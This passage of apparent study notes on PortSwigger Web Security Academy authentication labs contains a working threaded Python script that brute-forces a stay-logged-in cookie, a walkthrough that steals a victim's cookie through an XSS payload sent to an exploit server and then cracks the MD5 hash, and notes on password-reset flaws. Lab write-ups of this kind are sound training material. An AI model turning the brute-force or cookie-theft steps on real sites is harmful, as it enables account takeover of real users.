Brute-force stay-logged-in cookie (threaded).
PortSwigger: Authentication - Staying logged in.

Logic: encode carlos:md5(password) as base64, send as cookie.
If response does NOT contain "Log in" → found.

Usage:
  python3 brute_stay_logged_in.py \
    --url https://0a38001b047198bf81ec4de100ff00a0.web-security-academy.net \
    --session h826pmhwmUE0tzA8p8tCgChCh41CmBJTrU \
    --victim carlos \
    --passwords passwords.txt \
    --cookie stay-logged-in \
    --threads 20 \
    --delay 0.2
"""

import argparse
import sys
import time
from hashlib import md5
from base64 import b64encode
from threading import Thread
from pathlib import Path

import requests


def fetch_passwords(filename):
    """Read passwords and encode as base64(carlos:md5(password))."""
    cookies = []
    with open(filename) as f:
        for line in f:
            pw = line.strip().encode("utf-8")
            if not pw:
                continue
            h = md5(pw).hexdigest()
            encoded = b64encode(f"carlos:{h}".encode("utf-8")).decode("ascii")
            cookies.append((pw.decode("utf-8", errors="replace"), encoded))
    return cookies


def send_request(url, session_val, cookie_name, cookie_value, password, results):
    """Send request with stay-logged-in cookie."""
    cookies = {
        "session": session_val,
        cookie_name: cookie_value,
    }
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0",
    }
    try:
        resp = requests.get(url, cookies=cookies, headers=headers, timeout=10, allow_redirects=True)
        if "Log in" not in resp.text:
            results.append((password, cookie_value))
            print(f"[+] Found! Password: {password} | Cookie: {cookie_value}")
    except Exception as e:
        pass


def main():
    parser = argparse.ArgumentParser(description="Brute-force stay-logged-in cookie")
    parser.add_argument("--url", required=True, help="Target URL (e.g. https://xxx.web-security-academy.net/my-account)")
    parser.add_argument("--session", required=True, help="Valid session cookie value")
    parser.add_argument("--victim", default="carlos", help="Victim username")
    parser.add_argument("--passwords", required=True, help="Password wordlist path")
    parser.add_argument("--cookie", default="stay-logged-in", help="Cookie name")
    parser.add_argument("--threads", type=int, default=20, help="Number of threads")
    parser.add_argument("--delay", type=float, default=0.2, help="Delay between thread starts")
    args = parser.parse_args()

    # Read passwords
    pw_path = Path(args.passwords)
    if not pw_path.exists():
        print(f"ERROR: File not found: {pw_path}")
        sys.exit(1)

    cookies = fetch_passwords(str(pw_path))
    print(f"Loaded {len(cookies)} passwords from {pw_path}")
    print(f"Target: {args.url}")
    print(f"Victim: {args.victim}")
    print(f"Threads: {args.threads}")
    print()

    results = []
    threads = []

    for password, cookie_val in cookies:
        t = Thread(
            target=send_request,
            args=(args.url, args.session, args.cookie, cookie_val, password, results),
        )
        t.daemon = True
        t.start()
        threads.append(t)
        time.sleep(args.delay)

    # Wait for all threads
    for t in threads:
        t.join(timeout=30)

    print()
    if results:
        print("=" * 60)
        print(f"SUCCESS! Found {len(results)} valid cookie(s):")
        for pw, ck in results:
            print(f"  Password: {pw}")
            print(f"  Cookie:   {args.cookie}={ck}")
        print("=" * 60)
    else:
        print("No valid cookie found. Password not in wordlist.")


if __name__ == "__main__":
    main()
```

**How to run:**

```bash
python3 brute_stay_logged_in.py --url https://<id>.web-security-academy.net/my-account --session <session-cookie> --victim carlos --passwords passwords.txt --cookie stay-logged-in --threads 20
```

##### Reference

<details>
<summary>12. Authentication Vulnerabilities - Lab #9 Brute-forcing a stay-logged-in cookie — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=dpcrsQ2nhBo
Purpose: In this video, we cover Lab #9 in the Authentication module of the Web Security Academy. This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

</details>

</details>

### Keeping users logged in - Continued

In some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it hashed. Hashed versions of well-known password lists are available online, so if the user's password appears in one these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption.

##### Lab: Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerabilitiy in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

<details>
<summary>Lab details, screenshots & walkthrough 0.9</summary>

- Your credentials:`wiener:peter`
- Victim's username:`carlos`

**Screenshots:**





























##### Tutorial

1. Log in with `wiener:peter` and note your `stay-logged-in` cookie (base64 of `wiener:md5(password)`).
2. Find the XSS in the blog comment field; post a payload that exfiltrates `document.cookie` to the exploit server.
3. Deliver the payload to the victim (the blog is public). Read the stolen cookie from the exploit server's access log.
4. Decode the `stay-logged-in` cookie to get Carlos's password hash, crack the MD5 (e.g. CrackStation), then log in as `carlos` and delete the account from **My account**.

##### Reference

<details>
<summary>13. Authentication Vulnerabilities - Lab #10 Offline password cracking | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=RFt3YbGDkQ4
Purpose: In this video, we cover Lab #10 in the Authentication module of the Web Security Academy. This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, we obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, we log in as carlos and delete his account from the "My account" page.

</details>

</details>

### Resetting user passwords

In practice some users will forget their password, so it common to have a way for them to reset it. As the usual password-based authentication is obviously impossible in this scenario, websites have to rely on alternative methods to make sure that real user is resetting their own password. For this reason, the password reset functionality is inherently dangerous and needs to be implemented securely.

There are a few different ways that this feature is commonly implemented, with varying degrees of vulnerability.

### Sending passwords by email

It should go without saying that sending users their current password should never be possible if a website handles passwords securely in the first place. Instead, some websites generate a new password and send this to the user via email.

Generally speaking, sending persistent passwords over insecure channels is to be avoided. In this case, the security relies on either the generated password expiring after a very short period, or the user changing their password again immediately. Otherwise, this approach is highly susceptible to man-in-the-middle attacks.

Email is also generally not considered secure given that inboxes are both persistent and not really designed for secure storage of confidential information. Many users also automatically sync their inbox between multiple devices across insecure channels.

### Resetting passwords using a URL

A more robust method of resetting passwords is to send a unique URL to users that takes them to a password reset page. Less secure implementations of this method use a URL with an easily guessable parameter to identify which account is being reset, for example:

```
http://vulnerable-website.com/reset-password?user=victim-user
```
In this example, an attacker could change the `user` parameter to refer to any username they have identified. They would then be taken straight to a page where they can potentially set a new password for this arbitrary user.

### Resetting passwords using a URL - Continued

A better implementation of this process is generate a high-entrophy, hard-to-guess token and create the reset URL based on that. In the best case scenario, this URL should provide no hints about which user's password is being reset.

```
http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8
```
When the user visits this URL, the system should check whether this token exists on the back-end and, if so, which user's password it is supposed to reset. This token should expire after a short period of time and be destroyed immediately after the password has been reset.

However, some websites fail to also validate the token again when the reset form, is submitted. In this case, an attacker could simply visit the reset form from their own account, delete the token, and leverage this page to reset an arbitrary user's password.

##### Lab: Password reset broken logic

This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

<details>
<summary>Lab details, screenshots & walkthrough 0.10</summary>

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

**Screenshots:**

